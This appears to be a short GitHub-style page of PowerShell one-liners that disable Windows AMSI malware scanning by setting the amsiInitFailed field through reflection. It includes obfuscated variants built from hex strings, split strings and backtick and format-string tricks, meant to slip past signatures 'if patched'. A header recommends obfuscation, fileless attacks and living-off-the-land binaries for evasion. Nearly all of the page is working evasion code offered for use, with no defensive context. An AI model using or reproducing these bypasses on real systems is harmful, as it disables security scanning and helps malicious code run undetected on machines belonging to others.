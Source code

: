 ## DOn't just rely on AMSI. Also consider..

1. Code obfuscation (packing, encryption, and other forms of obfuscation.)
2. Fileless attacks (Living off the land or Reflective DLL Injection or certutil lol
3. Use of legitimate tools (both native tools like posh/wmi & lolbins)












### Lol at "https://github.com/PowerShell/PowerShell/issues/2906"

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

### Other-Multiline Bypass
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils';$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u));$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static');$field.SetValue($null,$true)
```

### Other - if patched change strings or vars
 ```powershell
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 ```

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Management.Automation').GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$false)
```
